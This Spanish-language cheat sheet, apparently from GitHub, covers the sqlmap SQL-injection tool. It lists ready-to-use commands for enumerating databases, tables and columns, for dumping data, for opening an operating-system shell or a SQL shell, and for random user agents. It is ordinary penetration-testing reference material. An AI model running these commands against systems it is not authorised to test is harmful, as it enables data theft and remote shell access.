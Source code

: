 ------------------------
# Enumeración y obtención de información
 
##### Enumera las bases de datos disponibles en el objetivo.
```bash
sqlmap -u URL --dbs
```

##### Enumera las tablas de una base de datos específica.
```bash
sqlmap -u URL -D nombre_base_datos --tables
```

##### Enumera las columnas de una tabla específica.
```bash
sqlmap -u URL -D nombre_base_datos -T nombre_tabla --columns
```

##### Obtiene los datos de las columnas especificadas de una tabla.
```bash
sqlmap -u URL -D nombre_base_datos -T nombre_tabla -C "columna1,columna2" --dump
```

-------------------------
# Explotación y recuperación de datos

##### Recupera todos los datos posibles de la base de datos.
```bash
sqlmap -u URL --dump-all
```

##### Obtén una shell interactiva en el sistema operativo subyacente.
```bash
sqlmap -u URL --os-shell
```

##### Obtén una shell interactiva de SQL.
```bash
sqlmap -u URL --sql-shell
```

-------------------
# Opciones avanzadas y personalización

##### Establece el nivel de prueba de inyección SQL en 3 (valor predeterminado: 1).
```bash
sqlmap -u URL --level=3
```

##### Establece el riesgo de prueba de inyección SQL en 2 (valor predeterminado: 1).
```bash
sqlmap -u URL --risk=2
```

##### Especifica el número de hilos a utilizar durante la enumeración (valor predeterminado: 1).
```bash
sqlmap -u URL --threads=5
```

##### Define una cookie personalizada para la solicitud.
```bash
sqlmap -u URL --cookie="nombre_cookie=valor"
```

##### Utiliza un agente de usuario aleatorio para hacer la solicitud.
```bash
sqlmap -u URL --random-agent
```

-----------------------



